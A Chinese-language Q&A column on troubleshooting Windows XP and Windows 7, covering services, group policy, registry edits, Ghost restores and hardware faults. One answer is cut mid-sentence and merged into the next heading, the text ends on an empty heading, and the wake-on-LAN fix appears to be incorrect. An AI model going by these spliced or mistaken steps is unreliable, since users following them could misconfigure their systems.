Q 使用Ones刻录文件时中途停止，从那以后系统就无法识别光驱，而系统打开后光驱灯一直亮，请问这该如何解决？

A 这可能是由于Ones软件对光驱的驱动程序造成了破坏所致。解决思路：直接在设备管理器中找到光驱设备并将其删除，待系统重新检测到光驱并完成驱动程序的安装，应该能解决问题。

# 系统启动自动打开程序文件夹

Q Windows XP系统，每次启动系统时总是自动打开程序文件夹（C:\Program Files），请问这是什么原因？

A 这可能是启动项中某个程序路径没有引号所致。按Win+R键调出运行对话框，输入msconfig并回车，在打开的程序窗口中的“启动”列表中查找是否有相关项目的路径没有引号，找到后直接将其设置成禁止随系统自动启动即可解决问题。

# 系统启动后无声音提示

Q Windows 7系统，启动系统时经常出现无法播放声音的故障，启动电脑后提示：无法连接到System Event Notification Service服务，之后就没有声音了，只有重新启动系统后才可能恢复正常。请问这是什么原因？

A 出现这种情况一般是由于系统中的服务“System Event Notification Service”无法启动而导致的。只要按Win+R键调出运行对话框，输入services.msc并按回车键打开服务管理器，找到“System Event Notification Service”服务并将其开启即可。出现这种情况，一般是由于系统中毒，或者是对系统进行优化时的误操作，或者安装的一些软件与系统运行不兼容，导致服务启动不正常，进而引发问题。

# 无法备份系统映像

Q 单硬盘，分了两个区（C、D），使用Windows 7系统自带的备份功能，试图在给C盘做备份时总是无法成功，在选择本地分区时看不到C分区，请问这是什么原因？

A 系统自带的分区映像备份功能不能对同一个分区进行备份，也就是必须将备份的映像文件保存到其他分区中才能成功。而你遇到的这个问题很有可能是C盘与D盘盘符错乱而造成的。

> 傻博士有话说：Windows 7系统自带的映像备份功能只是针对常用的重要数据进行备份（例如库、桌面和默认Windows文件夹等），而非将所有数据进行备份，不像Ghost程序那样直接将整个分区原封不动地备份下来，之后可以直接还原至备份前的状态。因此，在备份之前，如果只是想备份点重要数据，可以考虑使用系统自带的备份功能来实现。如果想备份系统，避免之后的重新安装，建议选择Ghost来实现。

# 系统无法更新

Q 我试图打开Windows 7的升级功能进行系统升级，但是出现了错误提示：Windows Update当前无法检查更新，因为未运行服务。您可能需要重新启动计算机，但是重新启动系统后仍不能更新，请问这该如何解决？

A 这可能是系统中的更新组件服务未开启所致。按Win+R键打开运行对话框，输入“services.msc”并按回车，找到“Windows Update”服务项并将其启用即可解决问题。

# 系统关机经常被中断

Q Windows 7系统，发现经常在执行关机命令后，系统被某个程序阻止而中断关机，停留在等待程序结束的界面，请问这种情况如何解决？

A 这是由于某个应用程序无法正常退出而导致系统无法继续关机。如果想让系统自动强制关机，可以这样设置：按Win+R键打开运行对话框，输入“gpedit.msc”并回车，依次找到“计算机配置→管理模板→系统→关机选项”，双击右侧窗口中的“关闭会阻止或取消关机的应用程序的自动终止功能”，直接启用该策略即可。这样当执行关机操作后，系统遇到未关闭的程序时，Windows 7系统则将自动终止并强制关机。

# 系统蓝屏

Q 自己之前做的一个Ghost备份，用Ghost恢复一次后，往往在第一天使用时就会出现蓝屏：DRIVER_IRQL_NOT_LESS_OR_EQUAL，Technical information:STOP:0x000000D1(0x00000006,0x7902,0x840,0x0B9E4E7D4), iastor.sys - Address B9E4E704 base at B9E49000,DateStamp 48ca1b68，请问这是什么原因？

A 这主要是iaStor.sys文件版本过旧而引起的。只要到http://drivers.mydrivers.com/search-502-490/h50429-0-0-1-0-1.htm下载“Intel Rapid Storage Technology”更新一下即可解决问题。

# 开始菜单经常会卡住

Q Windows XP SP3系统，开机登录到桌面后，每次过约2、3秒后开始菜单就会止住，鼠标移动到任务栏或是开始菜单都会出现漏斗等待图标，直到本地连接图标出现后才能恢复正常，请问这是什么原因？

A 这种情况一般是由于系统配置较低，又没有给系统指定IP地址（本地IP），开机后，系统需要获取一个动态IP地址以及DNS服务器等这些参数，在搜索时就会因为系统资源占用而导致可能出现的假死现象。通常，只要手工设置本机的IP地址等网络参数，就可以避免因此而导致的问题。此外，如果硬盘中存有坏道，也有可能会导致类似的故障，建议使用磁盘检测工具对硬盘进行检测、修复。

# 系统无法恢复

Q 刚买电脑时，电脑公司的朋友帮助做了系统备份；今天系统中毒了，我想使用Ghost恢复到以前的备份，但是在进展到75%时出现问题了：Please insert next disk and choose OK,or choose Browse to locate the next image span。请问这是什么原因？

A 这是由于当初备份系统时进行的是分块备份的，创建了两个备份文件（通常是由于备份的系统比较大，例如超过4G时，Fat32分区无法支持，只有分块），现在Ghost找不到第二块备份文件，如果删除了，那就无法恢复系统了，只有重新安装。

# 无法删除System32目录下的文件

Q 之前想更换一个透明桌面主题，于是在System32目录下将原始文件“ExplorerFrame.dll”添加后缀为“ExplorerFrame.dll.ooo”作为备份，完成替换后现在竟然无法将这个文件删除，请问这该如何解决？

A 出现这种文件无法删除的情况，最直接的方法是进入WinPE系统中进行删除。如果没有WinPE光盘或是优盘，也可以尝试在安全模式下结合文件粉碎机类强制删除工具来进行删除，例如360安全卫士中就带有文件粉碎机功能。

> 傻博士有话说：文件无法删除一般有两种原因，一种就是这个文件当前正被系统调用而导致无法删除；第二种情况就是文件被其他工具加入了保护，例如病毒软件的自我保护机制、杀毒软件的保护，还有一些专用的保护软件提供了文件保护功能。因此，遇到文件无法删除时，就需要想办法突破这些保护才能达到目的。现在市面上有很多专门用来删除常规模式下无法删除的文件的小工具，借助它们一般都能达到目的。在安全模式下，由于系统可能不会加载相关服务、进程，很多正常启动下无法删除的文件，在安全模式下也有可能轻松删除。

# 无法设置桌面背景

Q Windows 7系统，试图设置桌面背景时却在显示属性中的桌面背景列表中显示为空，通过“浏览”按钮也无法将找到的图片添加到列表中，请问这该如何解决？

A 请按Win+R键调出运行对话框，输入“gpedit.msc”（不含外侧引号）并按回车键打开组策略编辑器，依次展开“用户配置→管理模板→桌面→Active Desktop”，在右侧窗口中通过“启用Active Desktop”启用活动桌面，然后再将“只允许使用位图墙纸”策略禁用，这样就可以解决这个问题了！

# 文件删除不入回收站

Q 安装的是Windows 7 SP1，除了系统盘C外，其他盘的文件只要执行删除命令时，这些文件都被直接删除了，不会进入回收站，而回收站已经设置成启用了，请问这是什么原因？

A 如果回收站功能开启后出现此现象，一般是由于回收站的容量设置过小，剩余的空间不足而引起的。右击回收站图标并选择“属性”，在打开的窗口中为每个磁盘的回收站设置稍大点的空间，这样就可以避免因回收站空间小而导致文件被直接删除的问题了。

# 屏幕保护无法自动启动

Q Windows XP系统，设置好了屏幕保护程序并指定触发时间，但是系统总是无法自动进入屏保状态，请问这是什么原因？

A 首先检查自己的鼠标是否有问题。有的鼠标插在电脑中，即使没有人为操作，它也会出现“工作”状态，例如鼠标灯闪烁或是光标自动移动，出现这种情况后自然无法触发系统的屏幕保护程序了。
其次，请按下述方法检查组策略中是否关闭了屏幕保护程序服务：按Win+R键调出运行对话框，输入“gpedit.msc”（不含外侧引号）并按回车，依次展开到：用户配置→管理模板→控制面板→显示，在右侧窗口中双击“屏幕保护程序”并将其启用即可。
另外，还可以请检查一下显卡驱动程序是否工作正常，如不正常建议将其卸载并重新安装一遍，有些时候显卡驱动有问题也会导致类似问题出现。

# 系统装软件就出错

Q Windows 7系统，只要使用迅雷或是IE下载的软件，在安装时就会提示错误，提示安装文件有错误或是缺少相关文件。而使用360安全卫士的软件管家进行安装就正常，此外，解压文件时也同样提示错误，请问这是什么原因？

根据你描述的情况，很有可能是系统临时文件夹出了问题。软件在安装或是解压文件时，都需要将解压出的临时文件放到系统临时文件夹中，而若临时文件夹满了，就会导致解压文件无法存放的错误，进而会导致解压失败，而软件安装也同样会遇到错误无法继续了。只要在“开始”菜单的搜索框输入“磁盘清理”并打开该功能，按照向导将“临时文件”清理一遍即可。

## 打不开 Windows 防火墙高级设置

Q Windows 7系统，在试图打开系统防火墙的高级设置时，系统提示“高级安全Windows防火墙管理单元无法加载，进而无法打开高级设置。请问这是什么原因？”

A 据错误描述，很有可能是系统防火墙服务没有打开所致。只要按Win+R键打开运行对话框，输入“services.msc”并回车打开服务管理器，找到“Windows Firewall”服务并将其打开即可解决这个问题。

## CPU 被占用100%导致假死

Q 记不起来安装的哪款软件导致进程管理器中有两个进程占用大量CPU资源，进而导致系统假死，进程分别是：ntvdm.exe、PresentationFontCache.exe。只有将它们结束才能恢复正常，但是重新启动后再次出现类似故障。请问这该如何解决？

A 只要按Win+R键打开运行对话框，输入执行“services.msc”（不含外侧引号）命令，找到“Windows Presentation Font Cache”服务并将其禁用即可。此外，可以断定这是安装某款软件导致的问题，也可以尝试使用系统还原功能直接还原到之前的还原点来快速解决问题。

傻博士有话说：
很多朋友平时并不常用系统还原功能，其实开启系统还原功能后并不浪费多少硬盘资源，一旦遇到系统故障，直接通过系统还原功能来解决问题往往是最快捷的方法。很多软件在安装时都会自动创建系统还原点，也可以每周手工建立一个系统还原点，在遇到故障时先保存好相关数据，然后直接还原系统即可快速解决问题了。

## 系统性能有时会降一半

Q 最近我的笔记本电脑出现怪现象：有时候运行正常，有时候性能明显下降，系统速度明显变慢，刚开机时一般都会很快，用一段时间后就会明显变慢，而夜间使用往往不会出现这样的现象。请问这是什么原因？

A 这很可能是由于CPU散热不畅，CPU温度超过其警戒温度时自动降频来缓解这个问题，进而导致系统变慢的情况。遇到这种情况时，可以检查CPU风扇上是否积有灰尘，如果动手能力强的话，可以为CPU添加一些硅脂散热胶。此外，还有一些能给CPU“降温”的软件，例如在“360安全卫士”中打开“硬件大师”，然后开启“智能降温”功能也可以达到给CPU降温的目的。

## 鼠标移动出现不连贯现象

Q 安装的是“Vmware+ESXI”虚拟机，客户端安装的是Windows XP系统，也正确安装了Tools组件，但是鼠标光标在移动时还是出现不连贯现象，请问这是什么原因？

A 确保你安装的Tools是最新版的，其次再检查系统中的硬件加速功能是否开启，如果没有开启，只要将硬件加速功能开启即可。右击桌面并选择“属性”，在“设置”选项卡中单击“高级”选项卡，在“疑难解答”选项卡中将硬件加速设置成“全”即可。

## 无法设置扬声器

Q 从控制面板中打开“声音和音频设备→扬声器设置”的高级设置时，系统提示“DirectSound设置不可用”，无法进行高级设置。请问这该如何解决？

A 这一般是由于声卡驱动程序出现问题所致，例如声卡驱动程序安装过程中出错导致安装不完整，或是遭遇其他程序（例如病毒程序）的破坏，只要将声卡驱动卸载掉再重新安装一次应该能解决这样的问题。

## 双系统下的软件无法共用

Q C盘安装的是Windows XP，D盘安装的是Windows 7，E盘中存放的是在Windows XP下安装的软件。切换到Windows 7系统后试图打开E盘中的软件，有些可以使用，但有些却不能使用，提示缺少DLL文件。请问这是怎么回事？

A 一些软件安装到系统中后，同时会安装一些DLL文件到系统中，在运行时需要调用这些DLL文件，否则无法运行。而你在Windows 7系统中试图打开这些软件时，由于系统中没有注册相应的DLL文件，进而导致无法运行。而有些软件之所以可以在不同的系统中运行，主要是因为这些软件是纯绿色版，并不需要一些DLL文件或是注册表的支持，进而可以独立在不同的Windows系统中运行。所以，要想在多系统中共享软件，除非使用那些绿色软件，否则很难顺利使用。

## 图标经常出错

Q 使用的是Windows XP SP3系统，只要打开含有图标文件(*.ico)的文件夹并打开图标文件后，就会导致系统中的所有图标乱套，例如桌面图标显示不正常。请问这该如何解决？

A 按Win+R键调出运行对话框，输入执行“regedit”命令打开注册表编辑器，依次展开到[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Explorer]，找到“Max Cached Icons”（如果没有，请手工创建该Dword项），之后将其值设置为“2000”。接下来再删除%userprofile%\Local Settings\Application Data目录下的“IconCache.db”文件，这样设置后即可解决问题。

## 系统失去特效

Q 我使用的是Windows 7旗舰版操作系统，以前打开“计算机”时有淡出淡入的缩放效果，但自从使用某软件更新显卡驱动程序后就没有了特效。请问如何将其重新打开？

A 如果显卡驱动程序工作正常，那么只要按下面方法设置即可打开：右击“计算机”，选择“属性”，在“高级”选项卡中的“性能”框中单击“设置”按钮，将视觉效果设置为“调整为最佳外观”，保存设置即可。

傻博士有话说：
对于一些配置较低的电脑，不建议开启Windows 7的特效，会影响系统速度。而若配置较高，平时在使用过程中并未感觉到系统慢的情况，可以开启Aero特效。Windows 7的特效必须要显卡支持，如果显卡驱动程序未安装或是版本不对，有可能会出现不正常的情况，建议通过Windows 7的自动更新功能搜索、安装匹配的驱动程序。

## 无法设置显示扩展名

Q Windows 7系统，现在想设置显示文件的扩展名，但是打开文件夹设置窗口的“查看”列表，找不到相应的设置项。请问如何才能设置显示文件扩展名？

A 可以直接通过修改注册表来实现：按Win+R键打开运行对话框，输入执行“regedit”（不含外侧引号）命令打开注册表编辑器，定位到[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Advanced\Folder\HideFileExt]，设置“UncheckedValue”为“0”即可显示文件扩展名，而设置成“1”则不显示。（注意：为防止误操作导致系统异常，对注册表进行操作前，请对相应注册表内容导出备份）

## 电脑通电就会自动开机

Q 安装的是Windows XP系统，最近只要通电，系统就有可能会自动开机，已经将BIOS恢复缺省值，请问这该如何解决？

A 这有可能是开启了网卡的自动唤醒功能，请将其关闭。打开设备管理器，找到网卡项并右击选择“属性”，选择“电源管理”选项卡，直接将“允许计算机关闭这个设备以节约电源”项选中即可关闭网卡唤醒系统功能。

## Windows 7无法备份

Q 我在使用Windows 7系统自带的备份功能进行备份操作时，总是在创建备份映像文件时失败，提示“卷影复制服务操作失败”。请问这是什么原因？

A 这可能是备份组件的相关服务未开启所致。只要按Win+R键打开运行对话框，输入执行“services.msc”（不含外侧引号）命令打开服务管理器，依次将下面几个服务启用：
Microsoft Software Shadow Copy Provider
Block Level Backup Engine Service
Windows Backup
Volume Shadow Copy
重新启动系统后应该能恢复正常备份操作了。

## 游戏有黑边

Q 我的系统是Windows 7，今天安装了《魔兽》游戏，在打开时却发现屏幕两边黑屏。请问这该如何解决？

A 在Windows 7系统默认环境下，很多游戏全屏时都会出现黑边现象。只要将“游戏全屏.reg”（下载地址：http://u.115.com/file/aqa1chf1。注意，本文件来源于网络，安全性未知。请先导出备份好注册表，然后再尝试，一旦因此修改而导致系统异常，可将注册表恢复到之前的状态）以管理员身份导入到系统注册表中，重新启动系统即可解决游戏全屏黑边的问题了。

## 任务栏管理器界面不正常

Q Windows 7系统，在打开任务管理器后发现任务管理器窗口显示不正常，菜单栏、工具栏、状态栏全部消失了，操作起来很不方便。请问如何才能恢复原状？

A 这可能是在某些调用任务管理器时不小心双击窗口空白处，导致窗口相关元素被隐藏所致。只要重新用鼠标双击任务管理器窗口空白处即可重新显示这些元素。

## 打开文件夹资源管理器就卡机

Q 我有一个存放电影的文件夹，Windows XP系统中只要打开这个文件夹，系统资源管理器就会崩溃退出，其他文件夹正常。请问这是什么原因？

A 这可能是由于你存放的电影文件过大，而系统默认是开启视频预览功能的，在打开瞬间系统资源不够用而导致资源管理器崩溃，只要将视频预览功能关闭即可解决问题：按Win+R键打开运行对话框，输入执行命令：regsvr32 /u shmedia.dll，最后重新启动系统即可。（如果要恢复的话，可执行命令：regsvr32 shmedia.dll）

傻博士有话说：
如果电脑硬件配置不高，最好不要开启视频预览功能。此外，大体积的文件不要放在常用文件夹的根目录中，可以建立一个子文件夹存放。除了视频预览可能会导致文件夹打开异常外，大体积文件夹在遇到杀毒软件的监控、硬盘搜索类工具的索引等情况下，也会出现类似的故障。

## 清空回收站出错

Q 安装软件时生成一个文件名很长的文件夹，无法直接在Windows下删除，通过文件强制删除工具将其删除后，清空回收站时就总是出现错误，提示：无法删除文件夹，请问这是什么原因？

A 可能是你仅仅将该文件移到了回收站中，而进行清空回收站操作时，实际也是进行文件删除操作，既然之前在系统中无法正常删除的异常文件，进入回收站后，清空时同样也会出现不能删除的问题，可在回收站中，通过Unlocker之类的工具再强制删除一次即可。

## MSE 无法卸载

Q 每次启动系统时都会弹出“Microsoft Security Client”错误，卸载时又出现“Windows Installer”错误提示框，总是无法将其卸载，请问这该如何解决？

A 卸载MSE，可以直接通过微软的“Microsoft Fix it”小工具来完成。如果是MSE1.0，请从http://go.microsoft.com/?linkid=9748340下载这款小工具的相应版本，如果是MSE2.0，请从http://go.microsoft.com/?linkid=9775235下载该工具来卸载。

## 关机总显示：准备配置 Windows

Q 刚安装的Windows 7系统，最近在关机时总会频繁地出现：准备配置Windows，请勿关闭计算机，最后虽然也能关闭，但感觉很不舒服，请问这是什么原因？

A 这是由于系统进行升级，在关机前系统会自动配置这些升级程序，正常情况下，系统会自动在完成配置后自动关闭，无须人工干预。如果你不想出现这样的情况，可以关闭系统的自动更新功能，不过，需要定时手工更新系统，防止一些漏洞未及时堵上，给系统带来潜在的风险。

## 浏览器等故障导致系统崩溃

Q 我安装的是Windows 7系统，最近只要打开IE、Chrome或者WinRAR程序时，系统就会出现SYNC11~1.DLL_unloaded故障，最终导致系统崩溃，请问这该如何解决？

A 这个问题出自115网盘客户端程序的一个DLL文件，最简单的方法就是将115网盘客户端程序（优蛋）卸载掉，重新启动系统即可。若需要使用优蛋，可以重新安装。其实该问题主要是由于优蛋的一个DLL文件损坏而导致的问题，重新安装优蛋便完成对该DLL文件的修复，进而可以解决问题。

## 魔兽争霸无法全屏

Q 我使用的是Windows 7系统，宽屏显示器，玩魔兽争霸游戏时，试图进入全屏模式却总不成功，两边总有黑边，请问这该如何解决？

A 你只要为系统安装魔兽争霸的宽屏补丁即可解决问题。

## 无法检测磁盘

Q 最近使用磁盘检测工具检测硬盘时，系统总是提示：‘chkdsk.exe’不是内部或外部命令，也不是可运行的程序或批处理文件，请问这是怎么回事？

A 这主要是由于你系统中的‘chkdsk.exe’程序文件丢失或是损坏，在启动磁盘检测时找不到相应的执行程序，进而出现错误提示。只要从其他同版本系统的硬盘中搜索该文件（默认位置：C:\Windows\System32\chkdsk.exe），将其拷贝到自己系统中的System32目录中即可解决问题。

## 保存新文件导致程序假死

Q 安装的是Ghost版Windows XP系统，最近出现一件怪现象，不管是什么程序（例如Word、记事本）在保存新文件时都会导致该程序假死，请问这是什么原因？

A 出现这种情况，十之八九与硬盘坏道有关。特别是使用Ghost安装的系统，在安装时没有对磁盘进行错误修复或是坏道检测，在保存文件时可能遇到这个坏道位置，进而导致程序假死现象。可使用磁盘检测修复功能对硬盘坏道进行修复：右击盘符并选择‘属性’，在‘工具’标签中通过‘开始检查’按钮启动检查、修复程序，勾选两个修复选项，之后应该能恢复正常。

傻博士有话说：磁盘在运行过程中受振荡或是病毒侵袭等原因，都有可能会导致磁盘中出现错误或是直接导致坏道，而一旦出现坏道，系统运行就会不稳定，甚至会出现死机、读写数据时应用软件假死等现象，或是每次开机都会自动打开磁盘检测程序。这时，只有对磁盘进行全面检测，检测工具会自动将坏道记录下来，在以后数据读、写操作时直接将其避开，进而避免各种故障的出现。

## 麦克风音量选项变灰无法调整

Q 安装的是Windows XP系统，无论将麦克风插在前置插孔还是后置插孔，都无法调整其音量，调整项成灰色不可用状态，请问这是什么原因？

A 这可能是声卡驱动程序没有安装正确所致，请检查声卡驱动程序并确保正确安装。其次，一些HD声卡也经常出现无法调整音量的情况，只要安装一个补丁即可解决问题，下载地址：http://tinyurl.com/3jg49xg。

## Windows 7 开机有时变成 Basic 模式

Q 我安装的是Windows 7系统，最近不知道什么原因，经常在开机时系统特效自动还原成Basic模式（没有透明效果等），即使设置回来，以后启动时，又有可能会自动变成Basic模式，请问这是什么原因？

A 这个现象极可能与显卡有关，譬如在使用一些播放器看高清电影时，将硬件加速开启后就可能会导致系统自动变成Basic模式。在玩一些大型游戏时也有可能会出现这一问题，这主要是显卡质量不太好所致，或是安装的显卡驱动程序不是最新版也有可能会导致类似情况发生。

## 每次要按 JCMOS 键才能启动系统

Q 我使用的是台式机，磐正AGF61主板，每次启动系统前都需要按下主板上的JCMOS键才能成功启动，否则无法启动系统，请问这该如何解决？

A 出现这种情况，与CMOS程序有关。首先请检查CMOS电池是否电力不足，更换一块电池看看。其次，进入BIOS程序设置，将软驱禁用掉。现在的电脑基本上都没有软驱，如果在BIOS设置中没有将其禁用，在启动时就有可能会出现提示按某个按键跳过（通常是F1），否则会暂停启动。

## 大容量移动硬盘和数码相机存储卡无法读写

Q 我安装的是32位的Windows 7系统，插上我的大容量移动硬盘或是与数码相机连接后总是无法显示，而小容量优盘却可以正常显示，请问这该如何解决？

A 像这种情况，与系统关系不大，一般是由于使用的是配置不高的电脑，USB接口供电不足所致。给无法识别的外接设备配置外接电源即可解决问题。此外，对于台式电脑来说，使用机箱后置USB接口（主板上直接引出的USB接口），不要使用机箱前置USB接口，如果使用USB延长线的话，请去掉延长线后再试。

## 开机出现找不到脚本的错误提示

Q Windows XP系统，开机时总会出现无法找到脚本文件‘C:\WINDOWS\CloudCache32.sym’的提示信息，请问这是什么原因？

A 这是由于之前你的系统感染了‘暴风一号’病毒，而该病毒又被杀毒软件清除掉，开机时病毒启动时找不到相应的文件，故而出现这个提示。可以通过360系统急救箱对系统进行一次修复即可解决问题。或者直接手工检查系统启动项，找到与‘CloudCache32.sym’相关项并直接将其删除自启动即可。

## 美化系统后开始菜单无变化

Q Windows 7系统，在网上下载了一个美化包，安装后发现开始菜单没有美化，而任务栏、桌面、窗口等都变成美化主题，请问这是什么原因？

A 首先，你检查桌面主题是否设置成‘经典’模式，手工将其改成Windows 7的Aero模式。其次，如果下载的主题包没有破解，也有可能会出现美化不全的现象，建议使用‘魔方’（下载地址：http://www.tweakcube.com/）的主题破解功能对主题进行破解。

傻博士有话说：除了微软自己提供的主题可以正常使用，很多第三方系统主题都需要破解，否则无法安装，或者是安装后也会出现美化不完全的现象。此外，在选择系统主题时也需要注意，最好不要选择一些‘小厂’制作的主题，尽量选择像微软官方提供的主题。很多第三方主题包安装到系统中后，可能会导致各种故障的产生。

## 断电开机后提示 C 盘空间不足

Q Windows 7系统，由于突然断电关机，重新启动后系统总是提示C盘空间不足，这是什么原因？

A 这应该是断电关机时，系统没来得及清除系统、软件等所产生的临时文件，而重新开机后又要生成临时文件，而C盘本来的空闲空间可能就比较低，进而导致提示空间不足的提示。只要将‘%USERPROFILE%\Local Settings\Temp’目录清空，应该可以缓解空间告急的问题。此外，借助一些优化类工具直接对磁盘进行清理，删除一些无用的文件，腾出更多的磁盘空间，这样可以提高系统运行效率。

## 分区转换后数据丢失

Q 我使用Pmagic转换磁盘格式，将Fat32转成NTFS后发现数据全部丢失，请问如何才能将那些数据找回来呢？

A 一旦出现了上面所说的数据丢失的情况，当务之急是不要再进行磁盘读、写等操作了，以防止二次损伤。如果硬盘中有非常重要的数据文档，安全起见，请不要私自操作，最好立即联系专业数据恢复专家协助解决。如果硬盘中的文件不是很重要，可尝试自己解决，如使用Finadata、Data Recovery类数据恢复工具来找回文件。

## 系统开机时 CPU 占用率过高

Q Windows 7系统，刚开机半小时内，CPU占用率总100%，打开进程发现主要是360tray.exe及Svchost.exe这两个进程占用大量CPU资源所致，请问这该如何解决？

A 出现这个问题，一般是由于系统中的某个进程异常或是系统感染病毒，例如有流氓行为、中了木马程序等。360tray.exe就是360安全卫士的木马防火墙模块，在监控到系统异常后尝试去清杀或是修复，进而导致CPU占用过高。建议使用最新版杀毒软件对系统进行病毒查杀，然后将最近安装的可疑程序卸载，或者直接在进程列表中尝试关闭一些程序进程，确定导致问题的程序，然后再进行卸载处理。

## 重装系统后盘符紊乱

Q 之前盘符顺序是正常的，自从重新安装Windows 7系统后，系统盘符就紊乱了，原先的C盘现在变成了D盘，而原先的D盘则成了C盘，请问这是什么原因？

A 这是由于你在安装系统时将原先的D盘设置成了主分区，而Windows 7系统是按主分区、逻辑分区的顺序来显示的。出现这个问题后，只要在磁盘管理器中手工更改驱动器盘符号：右击‘计算机’，选择‘管理’，再选择‘磁盘管理’，然后在## 资源管理器无法使用

Q Windows 7系统，已经升级到SP1，不知道什么原因导致进入系统就会报错，提示：Windows资源管理器已停止工作，紧接着出现“Windows资源管理器正在重新启动”的窗口，如此循环往复。请问这该如何解决？

A 首先，启动到安全模式下，使用杀毒软件对系统进行病毒查杀，有些病毒感染系统后就会导致这种情况发生。接下来，再尝试从其他同版本操作系统中搜索并拷贝“Explorer.exe”替换本系统中Windows目录下的同名文件，假如是该程序损坏，通过上面的方法应该能解决问题。还有一种情况，就是安装了一些集成式解码器包软件而导致的，假如安装了，可以尝试将它们卸载。

## 安装 Windows 7 提示缺少 CD/DVD 驱动

Q 我使用Wintoflash软件制作了系统安装优盘，在安装Windows 7向导开始时提示：缺少所需的CD/DVD驱动器设备驱动程序，“下一步”按钮呈灰色不可点击状态。请问这该如何解决？

A 出现这个问题，可能是你将优盘插在扩展USB插槽中了，只要将优盘插在主USB插槽（例如台式机的机箱后侧直接连接在主板上的USB插槽）即可正常安装了。而若是笔记本电脑，可以尝试更换USB插槽来解决。

> 傻博士有话说：
除了使用优盘安装Windows 7会出现这种问题外，一些老式台式机在安装时也会出现类似问题。这主要是由于Windows 7安装程序无法识别IDE物理光驱或硬盘所造成的。Windows 7没集成南桥芯片的驱动，而主板上的IDE接口就是由南桥提供的。这种情况下，可下载你的主板南桥或者北桥芯片驱动，然后拷贝/解压到一个U盘中，安装的时候插入U盘添加驱动即可。

## Ghost 还原系统出错

Q 我使用Ghost还原系统时出现下面的错误信息：Not enough free drive letters to mount all the partitions! Dos LFN services installed. Invalid media type reading drive C. Abort,Retry,Fail?不管选择哪个选项都无法成功，请问这该如何解决？

A 这可能是你使用的Ghost程序版本不对，请不要使用一些演化版Ghost程序（例如GhostExp），你可以尝试在WinPE环境下换用32位原版Ghost程序进行恢复。

## 系统无故多出几个磁盘

Q 我的笔记本买回已经有一年了，最近不知道什么原因突然在资源管理器中多出几个磁盘：W、X、Y，以前从来没有看到有这几个盘。请问这是什么原因？

A 多出磁盘分区，除了病毒感染外（首先应该使用杀毒软件对系统进行病毒检测），一般有以下几种情况：
- 安装了虚拟机软件
- 将网络驱动器映射到本地
- 电脑自带有读卡器

请根据上述情况逐一排查导致出现多个磁盘的真正原因。

## 系统窗口出现乱码

Q Windows XP系统，不知道什么原因导致“开始”菜单、系统对话框、浏览器打开的页面上的文字全变成了一个竖线，而桌面上的图标文字显示正常。请问这该如何解决？

A 这一般是由于系统中的字体损坏或是丢失所致。最简单的解决办法就是到其他同版本系统中将系统盘下Windows\Fonts目录拷贝过来并覆盖自己系统中的同名文件夹，重新启动一次系统即可解决问题。

## 程序快捷方式打不开

Q 我安装的是64位Windows 7系统，不知何因，桌面的所有快捷方式、开始菜单中的程序都无法打开，程序图标也变成别的样式，双击打开这些图标都会出现“View Downloads”窗口，请问这该如何解决？

A 这一般是由于程序关联出了问题而导致的，而导致程序关联出错往往是由病毒感染、安装软件冲突导致系统注册表紊乱等原因造成的。因此，先更新杀毒软件，再对系统进行病毒查杀。接下来，使用SREng（下载：http://www.kztechs.com/sreng/download.html）的文件关联修复功能进行一次修复即可解决问题。

## 无法删除 ImageX 备份系统时的备份

Q 我使用ImageX对Windows 7系统进行备份，结果在E盘生成了缓存文件，占用空间比较大，无法删除，即使进入超级管理员账号或是进入WinPE环境也无法删除。请问这该如何解决？

A 这主要是没有取得对这些文件的所有权而导致无法删除，只要在资源管理器中右击这些文件并选择“属性”，在打开的窗口中的“安全”选项卡中，设置让当前系统账户获取对该文件拥有“完全控制”权限，然后再进行删除即可。

## 启用 AHCI 后无法启动系统

Q 安装的是64位版Windows 7系统，使用是正常的。后来我在BIOS中将硬盘工作模式设置成AHCI模式，启动时就会蓝屏，只有恢复为普通模式才能正常启动。请问这是什么原因？

A 在Windows 7系统中，如果安装系统时没有开启硬件的AHCI模式，安装后直接在BIOS中修改成该模式就会导致蓝屏现象。正确的做法是在修改之前在注册表中将【HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\Msahci】下面的“Start”项设置成“0”，保存设置。重新启动并切换到BIOS设置模式，再将硬盘工作模式设置成AHCI即可。

> 傻博士有话说：
AHCI是串行ATA高级主控接口的英文缩写，它是Intel所主导的一项技术，它允许存储驱动程序启用高级SATA功能，如本机命令队列（NCQ）和热插拔。开启AHCI之后可以发挥SATA硬盘的潜在的性能，理论上大约可增加30%的硬盘读写速度。例如有些硬盘在Windows 7的系统分组功能中刷到5.8，而切换到AHCI模式后可以刷到5.9。在Windows XP系统中，需要手工配置SATA驱动之后才能开启硬盘的AHCI模式，如果切换后出现蓝屏现象，直接将硬盘模式切换成IDE模式即可恢复正常。

## 每次开机均提示按 F2 键

Q 我的笔记本电脑最近在开机时总是提示按F2键，这样才能进入系统，否则一直停留在启动界面，下次启动时还会出现同样的症状。请问如何设置能够直接进入系统而避免按F2键？

A 这种情况一般出现在旧电脑中，通常是由于CMOS电池电量不足而导致的。只要小心地拆开笔记本后盖，找到CMOS电池位置，然后直接更换一块新电池，重新设置一下BIOS参数即可解决问题。（新手勿试，最好请硬件比较专业的朋友帮忙。）

## 无法开启数字小键盘

Q 我在笔记本电脑中安装了64位Windows 7系统，然后外接一块键盘和鼠标，每次开机后需要手工开启数字小键盘，已经在注册表中设置启用了，但仍不行。请问如何才能让系统自动在开机后开启数字小键盘？

A 可能在注册表中没有同时设置以下两个位置的键值，按Win+R键调出运行对话框，输入执行“regedit”（不含外侧引号）打开注册表编辑器，展开到【HKEY_CURRENT_USER\Control Panel\Keyboard】，将“InitialKeyboardIndicators”的值设置成“2”，同时还要将【HKEY_USERS\.DEFAULT\Control Panel\Keyboard】下的“InitialKeyboardIndicators”的值设置成“2”，这样设置后重新启动系统即可自动开启数字小键盘了。

## 开启系统的硬件设备更新

Q 我安装的是Windows 7系统，当初在安装时，显卡、声卡等设备的驱动程序都是通过系统更新功能自动搜索下载安装的。但系统每次升级时无法对设备驱动程序升级。请问，如何开启驱动程序的自动升级？

A 系统默认是关闭对硬件设备驱动程序自动升级的，需要手工开启：右击“计算机”，选择“属性”，选择“硬件”选项卡，单击“设备安装设置”按钮，选择“是，自动执行该操作（推荐）”，保存设置即可。

## 系统开机后总要重启一次

